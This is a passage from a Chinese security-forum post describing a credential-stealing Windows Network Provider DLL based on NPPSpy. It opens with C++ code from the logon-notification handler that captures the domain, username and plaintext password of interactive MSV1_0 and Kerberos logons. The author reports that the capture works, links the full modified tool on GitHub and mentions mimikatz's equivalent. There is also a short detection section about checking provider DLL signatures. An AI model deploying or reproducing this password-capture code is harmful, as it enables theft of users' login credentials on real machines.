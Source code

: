 ```cpp
    LPVOID lpAuthInfo,
    LPCWSTR lpPrevAuthInfoType,
    LPVOID lpPrevAuthInfo,
    LPWSTR lpStationName,
    LPVOID StationHandle,
    LPWSTR* lpLogonScript
)
{
    // MSV1_0:Interactive
    wstring lpAuthInfoTypeStr(lpAuthInfoType);
    wstring target = L"MSV1_0:Interactive";

    if (target == lpAuthInfoTypeStr)
    {
        SavePassword(
            &(((MSV1_0_INTERACTIVE_LOGON*)lpAuthInfo)->LogonDomainName),
            &(((MSV1_0_INTERACTIVE_LOGON*)lpAuthInfo)->UserName),
            &(((MSV1_0_INTERACTIVE_LOGON*)lpAuthInfo)->Password)
        );
    }
    else {
        SavePassword(
            &(((_KERB_INTERACTIVE_LOGON*)lpAuthInfo)->LogonDomainName),
            &(((_KERB_INTERACTIVE_LOGON*)lpAuthInfo)->UserName),
            &(((_KERB_INTERACTIVE_LOGON*)lpAuthInfo)->Password)
        );
    }

    lpLogonScript = NULL;
    return WN_SUCCESS;
}
```

虽然我加上了 `Kerberos:Interactive` 的处理，但是经过我实测，作者的在`NPPSpy.c`中，只处理 `MSV1_0:Interactive`，也是可以抓到在该机器上，第一次登录的域账号和密码的。所以，这个`Kerberos:Interactive` 到底啥时候会生效，我也不清楚。。。希望有了解的大神可以解答一下。

0x06 应急
-------

作者提供的 powershell 脚本，[Get-NetworkProviders.ps1](https://raw.githubusercontent.com/gtworek/PSBits/master/PasswordStealing/NPPSpy/Get-NetworkProviders.ps1)，能查看所有的 Network Provider 的 DLL 和对应的签名，来辅助排查是否遭受过该攻击。

![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-42e1d7402b00d31993339bb04dfdadeb70c93925.png)

如上图，我们的恶意 dll 特别的突出，签名都是空的。

0x07 福利时间
---------

修改后的代码已经全部上传到 github 上，自取。

<https://github.com/fengwenhua/CMPSpy>

0x06 后言
-------

处于实战的场景考虑，本来还想加上 `NPPasswordChangeNofity` 搞搞自动发邮件什么的，但是本文篇(zhu)幅(yao)太(shi)长(lang)了，而且 mimikatz 已经内置了：<https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/knp.c> 。所以本次分享到此为止了，希望能帮助到有需要的人。

**都看到这里了，不管你是直接拉到底的，还是看到底的，要不辛苦一下，给点个推荐呗？**